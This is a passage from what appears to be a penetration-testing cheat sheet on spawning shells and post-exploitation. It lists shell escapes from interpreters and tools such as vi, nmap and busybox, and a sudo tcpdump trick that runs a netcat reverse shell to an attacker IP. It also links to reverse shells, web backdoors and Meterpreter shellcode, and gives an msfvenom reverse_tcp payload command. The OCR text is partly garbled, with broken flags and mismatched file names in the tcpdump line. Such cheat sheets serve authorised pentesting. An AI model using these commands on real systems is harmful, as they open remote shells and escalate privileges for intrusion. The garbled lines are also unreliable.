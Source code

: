       `echo os.system('/bin/bash')`

      `/bin/sh -i`

      `perl —e 'exec "/bin/sh";'`

      perl: `exec "/bin/sh";`

      ruby: `exec "/bin/sh"`

      lua: `os.execute('/bin/sh')`

      From within IRB: `exec "/bin/sh"`


      From within vi: `:!bash`
     or
     
      `:set shell=/bin/bash:shell`
     
      From within vim `':!bash':`

      From within nmap: `!sh`

      From within tcpdump
      
         echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root

      From busybox  `/bin/busybox telnetd -|/bin/sh -p9999`

-   Pen test monkey PHP reverse shell  
    [http://pentestmonkey.net/tools/web-shells/php-reverse-shel](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

-   php-findsock-shell - turns PHP port 80 into an interactive shell  
    [http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://pentestmonkey.net/tools/web-shells/php-findsock-shell)

-   Perl Reverse Shell  
    [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

-   PHP powered web browser Shell b374k with file upload etc.  
    [https://github.com/b374k/b374k](https://github.com/b374k/b374k)

-   Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell 
    https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1
    
-   Web Backdoors from Fuzzdb 
    https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors

-   Creating Meterpreter Shells with MSFVenom - http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/
      
      *Linux*
      
      `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`
      
      *Windows*
      